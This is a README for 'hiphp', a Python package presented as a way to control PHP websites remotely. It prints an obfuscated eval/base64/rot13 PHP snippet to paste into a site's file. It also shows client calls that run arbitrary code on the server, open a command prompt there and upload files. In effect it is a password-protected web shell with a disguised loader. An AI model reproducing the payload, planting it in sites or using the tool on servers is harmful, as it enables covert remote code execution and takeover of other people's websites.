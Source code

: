 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/byRo0t96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>
<p align="center">
    <img align="center" src="https://travis-ci.com/byRo0t96/hiphp.svg?branch=main">
    <img align="center" src="https://img.shields.io/github/issues/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/forks/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/stars/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/badge/license-Apache--2.0-green.svg">
    <img align="center" src="https://img.shields.io/badge/python-3.x.x-blue">
</p>
<h2>Installation:</h2>

```
pip install hiphp==0.1.6
```

<h2>Usage:</h2>

```python
# USAGE :
#s
from hiphp import hiphp

p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>")
print(p1.get_code())//Get HIPHP ID for first use.
p1.run("<YOUR_CODE>")//Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>")//Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>")//Run a code or line in your website from a file With the entry of variables.
p1.cli()//open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>")//Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")
#e

```

<h2>Examples:</h2>

```python
# EXAMPLES :
#s
from hiphp import hiphp

hiphp("123","https://localhost/index.php")

# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php


# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''

# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''

# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''

# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''

# Example:6
# Upload a picture:
p1.upload("picture_example.png")

# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")
#e

```

<h2>Changelog:</h2>

```
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.

## 0.1.5
 - fix bugs.

## 0.1.4
 - fix bugs.
 - new build. 

## 0.1.1
- Import pakages by pipincluder.
- Fix bugs.

## 0.1.0
- New build.
- Fix bugs.

## 0.0.4
- Fix bugs.

## 0.0.2
- Fix bugs.
- Add help list.
- Add Executing from files.

## 0.0.1
- First public release.


```
<br>
<br>
<p align="center">
    <a align="center" href="https://byro0t96.github.io/">
        <img alt="byRo0t96" height="100" align="center" src="https://raw.githubusercontent.com/byRo0t96/byRo0t96/main/images/Ro0t-96_v.3.1.png">
    </a>
</p>

<p align="center">
    <a align="center" href="https://www.facebook.com/yasser.bdj.31">
        <img alt="facebook" align="center" src="https://img.shields.io/badge/Facebook-%2Fyasser.bdj.31-blue">
    </a>
	
   <a align="center" href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg">
        <img align="center"  alt="youtube" src="https://img.shields.io/badge/-YouTube-red">
    </a>
	
   <a href="https://www.linkedin.com/in/boudjada-yasser-a53543196" align="center" >
        <img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-linkedin-blue">
    </a> 
    
   <a href="https://www.instagram.com/bdj.yasser/" align="center" >
        <img align="center" alt="instagram" src="https://img.shields.io/badge/instagram-%2Fbdj.yasser-orange">
    </a> 
        
   <a href="https://github.com/byRo0t96/" align="center" >
        <img align="center" alt="visitor-badge" src="https://visitor-badge.laobi.icu/badge?page_id=byRo0t96.byRo0t96">
    </a>
</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>
